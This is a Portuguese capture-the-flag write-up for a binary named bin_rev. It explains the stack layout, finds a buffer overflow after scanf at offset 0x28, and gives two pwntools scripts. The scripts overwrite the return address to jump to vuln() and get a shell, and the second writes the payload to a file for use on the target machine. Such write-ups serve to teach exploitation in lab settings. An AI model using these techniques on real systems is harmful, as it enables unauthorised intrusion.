






# _**Dear QA CTF**_


## _**Entendo o arquivo**_
Foi alterado o nome do arquivo para _bin_rev_  
Primeiro, vamos executar _file [nome_arquivo]_  



Temos a arquitetura do binário  
Agora, para analisarmos, vamos utilizar a ferramenta <mark>cutter</mark>  



Temos a nossa principal função  
Antes de aprofundar, é preciso testar o binário em algumas coisas  
Temos buffer overflow, temos _seg falut_, possível indicação de onde devemos partir para explorar  



Para explorarmos, é preciso entender como a _stack_ da memória funciona  
Na parte mais acima, é onde temos os primeiros endereços  
Na parte debaixo, é onde temos os últimos endereços  
A escrita na memória começa nos últimos endereços e vai até os primeiros através de uma função: **push**  
Qualquer elemento escrito após, será escrito acima deste elemento primeiro escrito  
Podemos ver que existe um endereço seguro de retorno no final da função  
E também podemos ver que, na função **main()** que: ao ser chamada (scanf), os dados estão sendo escritos em: @ stack - 0x28  
Sabendo disso, vamos realizar um _overwrite_ dos bytes acima e da função de retorno, para termos retorno na função que queremos: **vuln()**  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> p = process()
> p.recvuntil(b"name:")
> p.sendline(payload)
> p.interactive()
> 


Conseguimos realizar um **BF** e também obter uma shell  
Vamos agora realizar essa operação na máquina da vítima  
Realizamos as seguintes alterações no código  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> with open("my_payload", "wb") as file:
>         file.write(payload)
>

Com isso, poderemos gerar nosso _payload_ e utilizar ele para obter acesso a máquina-alvo  


